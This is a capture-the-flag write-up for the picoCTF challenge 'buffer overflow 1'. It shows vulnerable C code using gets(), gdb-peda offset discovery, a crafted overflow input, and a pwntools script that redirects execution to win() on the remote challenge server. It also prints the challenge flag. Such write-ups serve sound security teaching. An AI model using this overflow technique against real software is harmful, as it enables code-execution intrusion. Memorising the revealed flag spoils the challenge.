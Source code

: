 # Example 1
### buffer overflow 1 (pico ctf)
![image](https://github.com/fahimalshihab/CTF/assets/97816146/1a5ed475-3848-4133-98de-791d2eb79e88)

files : [vuln](https://github.com/fahimalshihab/CTF/blob/df85a1701f5ad1227ce7449c24c71f814a4257c6/Binary%20Exploitation/Buffer%20Overflow/vuln)
& [vuln.c](https://github.com/fahimalshihab/CTF/blob/9e92d32e07e52470452dae9bd0ca4cde18c8f62a/Binary%20Exploitation/Buffer%20Overflow/vuln.c)

 <h3>From code we can see there is a win function .if we can overflow the stack and can give the address of win function . we will get our flag.</h3>

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

### SOL 1

#### Here first we have to find the offset so 

```gdb-peda$ pattern create 100```

>> 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

#### after input this value we will get this

<pre>[----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x61414145 ('EAAa')
ECX: 0x41 ('A')
EDX: 0x0 
ESI: 0xffffd034 --> 0xffffd22e ("/home/iftx/Downloads/pico/vuln")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x41304141 ('AA0A')
ESP: 0xffffcf50 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414641
[------------------------------------stack-------------------------------------]
0000| 0xffffcf50 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffcf54 ("AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffcf58 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffcf5c ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffcf60 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffcf64 ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffcf68 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0028| 0xffffcf6c ("AA4AAJAAfAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────
*EAX  0x41
*EBX  0x61414145 ('EAAa')
*ECX  0x41
 EDX  0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0
*ESI  0xffffd034 —▸ 0xffffd22e ◂— '/home/iftx/Downloads/pico/vuln'
*EBP  0x41304141 ('AA0A')
*ESP  0xffffcf50 ◂— 'bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
*EIP  0x41414641 ('AFAA')
──────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────
Invalid address 0x41414641

</pre>


#### Here
```*EIP  0x41414641 ('AFAA')```


#### Now we gonna find the offset of "AFAA"
```
gdb-peda$ pattern offset AFAA
AFAA found at offset: 44
```
#### now we know the offset which is 44 , so all we have to do is .Input : 44 + win,s address so
```
gdb-peda$ disass win
Dump of assembler code for function win:
   0x080491f6 <+0>:	endbr32 
   0x080491fa <+4>:	push   ebp
   0x080491fb <+5>:	mov    ebp,esp
   0x080491fd <+7>:	push   ebx
   0x080491fe <+8>:	sub    esp,0x54
   0x08049201 <+11>:	call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049206 <+16>:	add    ebx,0x2dfa
   0x0804920c <+22>:	sub    esp,0x8
   0x0804920f <+25>:	............................................so on
```
#### so now the input is

```gdb-peda$ run < <(echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")```

#### we will found the flag. now time for remote server .

### tips :
```
>>> 'A'*44
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
```

### script :

```
from pwn import *

# Set up the remote connection
host = "saturn.picoctf.net"
port = 57696
conn = remote(host, port)

# Craft the payload
padding = b"A" * (32+12)  # Fill the buffer
win_address = p32(0x080491f6)  # Address of the win() function
payload = padding + win_address

# Send the payload
conn.sendline(payload)

# Print the received flag
print(conn.recvall().decode())

# Close the connection
conn.close()
```
#### flag : picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}



